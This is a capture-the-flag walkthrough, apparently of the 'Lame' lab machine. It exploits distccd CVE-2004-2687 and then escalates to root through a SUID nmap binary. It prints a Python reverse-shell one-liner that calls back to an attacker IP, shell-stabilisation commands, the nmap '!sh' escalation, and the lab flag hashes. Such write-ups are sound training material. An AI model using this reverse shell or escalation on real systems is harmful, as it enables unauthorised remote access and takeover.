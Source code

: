 ```yaml
---
sticker: emoji//1f613
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 139  | SMB     |
| 445  | SMB     |
| 3632 | distccd |



# RECONNAISSANCE
---

FTP anonymous login is enabled, let's check it out:


![](cybersecurity/images/Pasted%2520image%252020250402152900.png)

Nothing in here, `smb` anonymous login is not enabled unfortunately, let's keep on going, if we remember the scan, we got the following on port `3632`:

```
PORT     STATE SERVICE VERSION
3632/tcp open  distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```

We got something called `distccd`, `distcc` is a tool designed to distribute compilation of C/C++/Objective-C code across multiple machines on a network. It speeds up large builds by parallelizing the workload.

Since we got `distccd v1`, we can search for an exploit regarding that version:

![](cybersecurity/images/Pasted%2520image%252020250402153430.png)




# EXPLOITATION
---


This is a pretty old CVE, we are facing `CVE-2004-2687`, we can search for an exploit in GitHub:

![](cybersecurity/images/Pasted%2520image%252020250402153623.png)

Link: https://github.com/angelpimentell/distcc_cve_2004-2687_exploit


If we use the exploit, we can see this:

![](cybersecurity/images/Pasted%2520image%252020250402153655.png)


We can get ourselves an interactive shell: 

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.239",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

If we check up our listener:

![](cybersecurity/images/Pasted%2520image%252020250402154059.png)

Let's proceed with privesc.



# PRIVILEGE ESCALATION
---


First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

We can read `user.txt` now:

```
daemon@lame:/$ cat /home/makis/user.txt
6c8d8478b697ee1e975fb840878c905a
```

Let's use linpeas for a way to get into root:

![](cybersecurity/images/Pasted%2520image%252020250402154841.png)

We got `nmap` binary set with a `4000 SUID`, let's check `gtfobins`:

![](cybersecurity/images/Pasted%2520image%252020250402155155.png)

So, we need to do the following in order to get root:

```
/usr/bin/nmap --interactive
!sh
```

![](cybersecurity/images/Pasted%2520image%252020250402155218.png)

We can finally read `root.txt`:

```
sh-3.2# cat /root/root.txt
259db45cfc8e1723f21fb0387f48ff5f
```


![](cybersecurity/images/Pasted%2520image%252020250402155300.png)



